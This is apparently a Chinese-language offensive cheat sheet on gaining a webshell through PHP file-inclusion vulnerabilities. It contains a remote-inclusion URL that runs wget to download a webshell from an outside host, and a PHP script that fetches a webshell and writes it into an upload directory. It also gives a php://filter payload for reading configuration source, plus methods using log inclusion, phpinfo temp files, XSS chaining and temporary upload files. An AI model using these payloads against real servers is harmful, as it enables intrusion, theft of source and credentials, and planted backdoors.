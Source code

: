 	文件包含getshell
		{
			1)使用wget之类的命令来下载一个Webshell
				这个比较简单，也很常用，在上面我们得到的那个伪webshell中，我们可以执行命令，那么我们也可以调用系统中的一个很厉害的角色，wget， 这个命令的强大你可以google下，参数一大堆，绝对搞晕你，呵呵，我们不需要那么复杂，我们就使用一个 -O（–output- document=FILE，把文档写到FILE文件中） 就可以了，呵呵。
				前提是你在按照前面的步骤放一个包含PHP代码的Webshell在一个可以通过HTTP或者FTP等可以访问的地方，比 如：http://www.xxx.cn/m4r10.txt,这个文件里写的就是Webshell的内容。然后我们在前面得到的伪 Webshell中 执行如下的URL：
				http://hi.baidu.com/m4r10/php/index.php?page=http://www.xxx.cn /cmd.txt?cmd=wgethttp://www.xxx.cn/m4r10.txt -O m4r10.php
				如果当前目录可写，就能得到 一个叫做m4r10.php的Webshell了，如果当前目录不可写，还需要想其它的办法。
			2）使用文件来创建				    	
				前面的wget可能会遇到当前目录不能写的情况；或者目标主机禁用了（或者没装）这个命令
				我们可以结合前面的包含文件漏洞来包含一个创建文件（写文件）的PHP脚本，内容如下：	
					<?php
						$f=file_get_contents(“http://www.xxx.cn/m4r10.txt”); //打开指定路径的文件流
						$ff=fopen(“./upload/m4r10.php”,”a”); //寻找一个可以的目录，创建一个文件
						fwrite ($ff,$f); 　//把前面打开的文件流写到创建的文件里
						fclose($ff); 　//关闭保存文件
					?>
					
					<?php
						$filename="test.txt";
						file_put_contents($filename, "nihao");
					?>
					
					<?php
						$filename="test.txt";
						file_put_contents($filename, json_encode("ni&hao"));
					?>

					
			3）包含同服务器中上传的jpg、txt、rar等文件
			
			4）包含系统的各种日志，如apache日志，文件系统日志等 其中apache当记录格式为combined，一般日志都会很大，基本无法包含成功。包含log是有自动化攻击程序的。
			
			5）包含由php程序本身生成的文件，缓存、模版等，开源的程序成功率大
			
			6)利用本地包含读取PHP敏感性文件，需要PHP5以上版本。如看到“config”的源码如下：
				index.php?pages=php://filter/read=convert.base64-encode/resource=config
				特别的情况用到readfile() 函数不是包含执行，可以直接读源码。
				
			7)利用phpinfo页面getshell。一般大组织的web群存在phpinfo的机会挺大的。
				poc和介绍参考：
					《利用phpinfo信息LFI临时文件》
					http://hi.baidu.com/idwar/blog/item/43101de153370126279791f2.html
					
			8)利用包含出错，或者包含有未初始化变量的PHP文件，只要变量未初始化就可能再次攻击 
				具体见：
					《include()本地文件包含漏洞随想》
					http://www.2cto.com/Article/200809/29748.html
					
			9）结合跨站使用
				index.php?pages=http://127.0.0.1/path/xss.php?xss=phpcode （要考虑域信任问题）
				
			10）包含临时文件文件。这个方法很麻烦的。
			参考：
				《POST method uploads》
				http://www.php.net/manual/en/features.file-upload.post-method.php
				解决临时文件删除方法：慢连接 （注：前提是 file_uploads = On，5.3.1中增加了max_file_uploadsphp.ini file_uploads = On，5.3.1中增加了max_file_uploads，默认最大一次上传20个）
				windows格式：win下最长4个随机字符( ‘a’-’z’, ‘A’-’Z’, ’0′-’9′）如： c:/windows/temp/php3e.tmp
				Linux格式：6个随机字符( ‘a’-’z’, ‘A’-’Z’, ’0′-’9′） 如：/tmp/phpUs7MxA
				慢连接的两种上传代码参考：
				《PHP安全之LFI漏洞GetShell方法大阅兵》
				http://www.myhack58.com/Article/html/3/62/2011/32008_2.htm
				